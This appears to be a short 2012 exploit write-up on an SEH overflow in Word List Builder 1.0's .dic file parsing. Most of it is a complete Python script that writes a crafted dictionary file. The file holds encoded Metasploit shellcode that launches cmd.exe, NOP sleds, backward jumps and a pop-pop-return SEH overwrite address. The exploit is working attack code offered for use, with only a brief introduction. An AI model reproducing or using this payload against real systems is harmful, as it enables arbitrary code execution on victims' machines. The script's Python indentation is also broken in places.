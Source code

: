 Word List Builder .dic File Parsing SEH Overflow
================================================
date: 02/Sep/2012
summary: Word List Builder SEH overflow via a pop-pop-return overwrite and negative jumps.
tags: code, exploit

## Introduction

The Word List Builder version 1.0 has a SEH overflow vulnerability. Processing specially-crafted `.dic` dictionary files triggers a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 17086](http://www.exploit-db.com/exploits/17086/)

## Exploit Code

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb17086.dic"

# msfpayload windows/exec CMD=cmd.exe R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 226 (iteration=1)

cmmd = ("\xda\xd5\xb8\x4f\xc1\x95\xae\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x32\x83\xc2\x04\x31\x42\x16\x03\x42\x16\xe2\xba\x3d" +
"\x7d\x27\x44\xbe\x7e\x58\xcd\x5b\x4f\x4a\xa9\x28\xe2\x5a" +
"\xba\x7d\x0f\x10\xee\x95\x84\x54\x26\x99\x2d\xd2\x10\x94" +
"\xae\xd2\x9c\x7a\x6c\x74\x60\x81\xa1\x56\x59\x4a\xb4\x97" +
"\x9e\xb7\x37\xc5\x77\xb3\xea\xfa\xfc\x81\x36\xfa\xd2\x8d" +
"\x07\x84\x57\x51\xf3\x3e\x56\x82\xac\x35\x10\x3a\xc6\x12" +
"\x80\x3b\x0b\x41\xfc\x72\x20\xb2\x77\x85\xe0\x8a\x78\xb7" +
"\xcc\x41\x47\x77\xc1\x98\x80\xb0\x3a\xef\xfa\xc2\xc7\xe8" +
"\x39\xb8\x13\x7c\xdf\x1a\xd7\x26\x3b\x9a\x34\xb0\xc8\x90" +
"\xf1\xb6\x96\xb4\x04\x1a\xad\xc1\x8d\x9d\x61\x40\xd5\xb9" +
"\xa5\x08\x8d\xa0\xfc\xf4\x60\xdc\x1e\x50\xdc\x78\x55\x73" +
"\x09\xfa\x34\x1e\xcc\x8e\x43\x67\xce\x90\x4b\xc8\xa7\xa1" +
"\xc0\x87\xb0\x3d\x03\xec\x4f\x74\x09\x45\xd8\xd1\xd8\xd7" +
"\x85\xe1\x37\x1b\xb0\x61\xbd\xe4\x47\x79\xb4\xe1\x0c\x3d" +
"\x25\x98\x1d\xa8\x49\x0f\x1d\xf9\x2a\xc2\x85\x2c\xc9\x64" +
"\x23\x31")

nop1 = "\x90"*3777
nop2 = "\x90"*100
jmp2 = "\xE9\xA8\xFD\xFF\xFF" # near jump (back) 600B (0xFFFFFDA8)
nseh = pack ('<I', 0x90909CEB)# short jump (back) 100B (0xFF9C)
cseh = pack ('<I', 0x0040143C)# p/p/r 0040143C Word_Builder.exe

sploit = nop1+cmmd+nop2+jmp2+nseh+cseh
#3777 226  100  544

try:
handle = open (file, 'w')
handle.write (sploit)
handle.close ()
print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
print "[-] exception!"
```
